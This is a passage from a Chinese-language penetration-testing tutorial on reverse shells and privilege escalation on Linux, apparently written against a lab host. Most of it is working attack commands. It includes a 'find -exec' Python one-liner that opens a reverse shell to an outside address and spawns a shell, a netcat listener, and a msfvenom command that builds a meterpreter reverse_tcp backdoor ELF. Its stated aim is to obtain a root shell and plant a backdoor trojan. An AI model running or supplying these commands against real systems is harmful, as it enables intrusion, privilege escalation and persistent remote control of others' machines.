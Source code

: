 #### 4.4.4.2. 生成python反弹命令

可以用下面的网站一键生成反弹命令

```
find 111 -exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.20",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' \;
```

![image-20230331103023181](assets/zQi8YBDv5UmlorH.png)

#### 4.4.4.3. 反弹效果

这里也可以通过nc或则python脚本进行反弹，但本质上目的都是获取一个root权限的shell。而且通过nc或者python脚本反弹的shell很可能还是普通用户权限，所以建议直接使用上面那种方法。

```
nc -lvnp 5555
```

![image-20230331103051814](assets/A5Oewg2FtWKEQxr.png)

## 4.5. MSF后门木马反弹

这里我们可以尝试生成一个Linux的后门木马进行反弹，在生成之前需要知道Linux是32位还是64位。

### 4.5.1. 生成后门

我们这里知道操作系统是64位的，所以我们生成一个64位的Linux后门木马。

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.10.20  LPORT=5555 -f elf > shell.elf
```

![image-20230331122326145](assets/viUWz4boCutp1jy.png)
